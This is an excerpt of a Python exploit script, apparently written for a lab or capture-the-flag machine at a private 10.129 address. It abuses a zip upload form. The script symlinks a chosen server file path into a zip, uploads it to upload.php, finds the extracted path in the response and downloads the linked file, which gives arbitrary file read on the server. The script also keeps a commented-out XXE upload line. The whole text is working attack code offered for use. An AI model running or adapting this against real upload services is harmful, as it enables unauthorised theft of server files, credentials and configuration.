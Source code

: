 ```python

username = ""
password = ""
url = "http://10.129.66.225/"
proxies = {"http": "http://127.0.0.1:8080"}

# files = {'file': ('xxe.xml', payload, 'text/xml')}

fileName = os.path.basename(filePath)

symlink_command = f"ln -s {filePath} symlink.pdf"
symlink_process = subprocess.Popen(symlink_command, shell=True)
symlink_process.wait()

if symlink_process.returncode != 0:
    print(f"Error symlinking: {symlink_process.returncode}")
    exit()
print("[+] Symlink created.")


zip_command = "zip -y exploit.zip symlink.pdf"
zip_process = subprocess.Popen(zip_command, shell=True)
zip_process.wait()

if zip_process.returncode != 0:
    print(f"Error zipping: {zip_process.returncode}")
    exit()
print("[+] File successfully zipped.")


with open("exploit.zip", "rb") as file:
    zip_content = file.read()

files = {
    "zipFile": ("exploit.zip", zip_content, "application/zip"),
    "submit": (None, "Submit"),
}

# print(files)

session = requests.Session()

response = session.post(
    url=url + "upload.php", files=files, proxies=proxies, verify=False
)

pattern = r"uploads/[0-9a-fA-F]{32}/symlink\.pdf"
match = re.search(pattern, response.text)

if not match:
    print("File not uploaded")

uploaded_path = match.group(0)
print(f"View file @ {url}/{uploaded_path}")

response = session.get(url=url + uploaded_path, proxies=proxies)
print(f"File content:\n{response.text}")

with open(fileName, "a") as f:
    f.write(response.text)

os.system("rm -rf symlink.pdf exploit.zip")
```